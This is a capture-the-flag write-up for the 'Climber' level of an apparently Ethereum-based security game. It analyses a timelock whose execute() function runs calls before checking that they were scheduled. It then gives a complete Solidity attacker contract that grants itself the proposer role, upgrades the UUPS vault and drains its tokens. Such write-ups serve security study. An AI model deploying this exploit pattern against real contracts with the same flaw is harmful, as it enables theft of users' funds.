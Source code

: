 # Climber

## analyse

### 1.overview

There are a lot of contract:

- ClimberTimelock: controls the ClimberVault
- ClimberVault: holds the asset and uses UUPS pattern
- UUPS, etc. : UUPS pattern

In this level, our goal is to get the entire money in the ClimberVault

### 2.analyses

We can get the entire money by `sweepFunds()` while it can be called only by ClimberTimelock and transfers to ClimberTimelock . But we can upgrade the contract because of UUPS pattern.

ClimberTimelock contract is important since it holds a lot of authority. In this level, there is some problem with execute() which we can exploit. In normal situation, the execution is that: call `schedule()` first, and then call `execute()`. `schedule()` can only be called by PROPOSER_ROLE but everyone can call `execute()`.

So we, a normal member, not PROPOSER_ROLE, can exploit `execute()`. In this function, it executes `functionCallWithValue()` first which contains call() in `address.sol` library and then check if `operations[id].executed = true;` that only can be set in `schedule()`. It means everyone can call `execute` with the proposals containing making our proposals true.

```solidity
    function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external payable {
        require(targets.length > 0, "Must provide at least one target");
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; i++) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }
        
        require(getOperationState(id) == OperationState.ReadyForExecution);
        operations[id].executed = true;
    }
```

So our idea is that:

1. make delay to zero so that we can attack right now.
2. grant PROPOSER_ROLE to attack contract
3. upgrade climbervalut which contains a new `sweepFunds()`. and this new `sweepFunds()` can be call by the attack contract and send money to the attack contract.

## solutions

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "../climber/ClimberTimelock.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../climber/ClimberVault.sol";

contract ClimberAttacker is UUPSUpgradeable{
    ClimberTimelock  immutable timelock;
    address immutable vaultProxyAddress;
    IERC20 immutable token;
    address immutable attacker;

    constructor(ClimberTimelock _timelock, address _vaultProxyAddress,IERC20 _token){
        timelock = _timelock;
        vaultProxyAddress = _vaultProxyAddress;
        token = _token;
        attacker = msg.sender;
    }

    function buildProposal() internal returns(address[]memory,uint256[]memory,bytes[]memory){
        address[] memory targets = new address[](5);
        uint256[] memory values = new uint256[](5);
        bytes[] memory dataElements = new bytes[](5);

        //upgrade delay to zero
        targets[0] = address(timelock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSelector(ClimberTimelock.updateDelay.selector,0);

        // grant our attack contract PROPOSER_ROLE
        targets[1] = address(timelock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSelector(AccessControl.grantRole.selector,timelock.PROPOSER_ROLE(),address(this));

        // execute our malicious proposal
        targets[2] = address(this);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSelector(ClimberAttacker.scheduleProposal.selector);

        // upgrade our implementation contract: climbervault
        targets[3] = address(vaultProxyAddress);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSelector(UUPSUpgradeable.upgradeTo.selector,address(this));
        
        // get the money
        targets[4] = address(vaultProxyAddress);
        values[4] = 0;
        dataElements[4] = abi.encodeWithSelector(ClimberAttacker.sweepFunds.selector);
        
        return (targets,values,dataElements);

    }

	// schedule our malicious proposal
    function scheduleProposal()external {
        (address[] memory targets,uint256[] memory values,bytes[] memory dataElements) = buildProposal();
        timelock.schedule(targets, values, dataElements, 0);
    }

	// execute our malicious proposal
    function executeProposal() external {
        (address[] memory targets,uint256[] memory values,bytes[] memory dataElements) = buildProposal();
        timelock.execute(targets, values, dataElements, 0);
    }

	// exploit the money
    function sweepFunds()external {
        token.transfer(attacker,token.balanceOf(address(this)));
    }

	// must override this function, because it is an interface
    function _authorizeUpgrade(address newImplementation) internal  override {}
       
}
```











